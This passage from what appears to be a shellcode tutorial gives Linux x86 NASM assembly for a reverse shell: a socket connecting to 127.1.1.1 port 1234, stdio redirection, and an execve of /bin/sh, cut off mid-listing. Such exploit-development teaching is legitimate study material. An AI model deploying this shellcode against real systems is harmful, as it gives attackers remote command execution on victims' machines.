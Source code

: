 ## Executing a Shell

No changes here, it's exactly the same process as before with the bind shell.

```nasm
xor edx, edx		; zero out edx
push edx		; NULL
push 0x68732f2f		; "hs//"
push 0x6e69622f 	; "nib/"
mov ebx, esp		; point ebx to stack
mov ecx, edx		; NULL
mov al, 0xb		; execve
int 0x80		; execute execve
```

## Final Assembly Code

```nasm
global _start

section .text
_start:

	
	; Create the socket

	push 0x66 		; 
	pop eax			; socketcall (102) and clean eax
	push 0x1		;
	pop ebx			; SYS_SOCKET (1) and clean ebx
	xor ecx, ecx		; zero out ecx
	push ecx		; protocol (0)
	push ebx		; SOCK_STREAM (1)
	push 0x2		; AF_INET (2)
	mov ecx, esp		; point ecx to top of stack
	int 0x80		; execute socket

	mov edi, eax		; move socket to edi


	; Connect to an IP and port

	
	mov al, 0x66		; socketcall (102)
	pop ebx			; (2)
	push 0x0101017f		; s_addr = 127.1.1.1 
	push word 0xd204	; sin_port = 1234
	push bx			; AF_INET (2)
	mov ecx, esp		; point ecx to top of stack
	push 0x10		; sizeof(host_addr)
	push ecx		; pointer to host_addr struct
	push edi		; socketfd
	mov ecx, esp		; point ecx to top of stack 
	inc ebx			; SYS_CONNECT (3)
	int 0x80		; execute connect
	

	; Redirect STDIN, STDERR, STDOUT

	xchg ebx, edi           ; move socketfd into ebx for dup2
	push 0x2
	pop ecx			; zero out ecx
	
loop:
```